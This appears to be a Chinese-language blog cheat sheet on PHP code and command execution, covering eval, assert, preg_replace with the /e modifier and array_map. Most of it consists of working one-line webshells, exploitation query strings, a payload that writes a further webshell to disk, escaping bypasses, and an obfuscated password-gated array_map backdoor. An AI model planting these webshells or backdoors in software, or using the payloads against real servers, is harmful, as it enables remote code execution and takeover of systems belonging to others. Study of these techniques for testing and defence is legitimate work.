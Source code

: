 ```yaml
---
title: php代码执行与命令执行
date: 2019-01-06 20:35:09
tags: [php]
categories:
  - [php]
  - [整理]
---
```


# php代码执行与命令执行

## 代码执行

### eval()  

— 把字符串作为PHP代码执行

```php
#例:一句话木马
<?php
@eval($_GET["cmd"]);
?>
```

利用方式：

```php
1. shell.php?cmd=phpinfo();

#文件上传条件竞争可利用此方式来创建文件
2. shell.php?cmd=fputs(fopen('test.php','w'),'<?php @eval($_POST[test])?>')

#绕过
<?php
$cmd = @(string)$_GET["cmd"];
eval('$cmd="' . addslashes($cmd) . '";');
?>
3. shell.php?cmd=${${phpinfo()}};

#绕过
<?php
$cmd = "echo \"hello " . $_GET['cmd'] . "\";";
eval($cmd);?>
4. ${${}}
shell.php?cmd=${${phpinfo()}};
```



### assert()

— bool assert ( [mixed](http://php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$assertion` [, Throwable `$exception` ] )

如果 `assertion` 是字符串，它将会被 **assert()** 当做 PHP 代码来执行。

```php
#例:一句话木马
<?php
@assert($_GET["cmd"]);
?>
```

### preg_replace + '/e'

preg_replace — 执行一个正则表达式的搜索和替换

preg_replace ( $pattern , $replacement , $subject )

preg_replace(1,2,3),在3中用1的格式匹配，用2的格式输出。

代码执行条件：

1. magic_quotes_gpc=Off时，导致代码执行。

2. pattern参数中注入/e选项

```php
<?php
$regexp = $_GET['reg'];
$var = '<php>phpinfo()</php>';
preg_replace("/<php>(.*?)$regexp", '\\1', $var);
?>
#利用方式 reg=%3C\/php%3E/e 即reg=<\/php>/e
```

利用方式：

```php
#当replacement 参数构成一个合理的php 代码字符串的时候
#/e 修正符使preg_replace()，将replacement 参数当做php 代码执行
例:一句话木马
1.
<?php
preg_replace("//e", $_GET['cmd'], "cmd test");
?>
shell.php?cmd=phpinfo();

2.
<?
preg_replace("/\s*\[php\](.+?)\[\/php\]\s*/ies", "\\1", $_GET['h']);
?>
h=[php]phpinfo()[/php]
```
![001](/img/php/php_fun_CodeAndOrder/001.png)

### array_map

```
<?md5($_GET['qid'])=='850abe17d6d33516c10c6269d899fd19'?array_map("asx73ert",(array)$_REQUEST['page']):next;?>
```

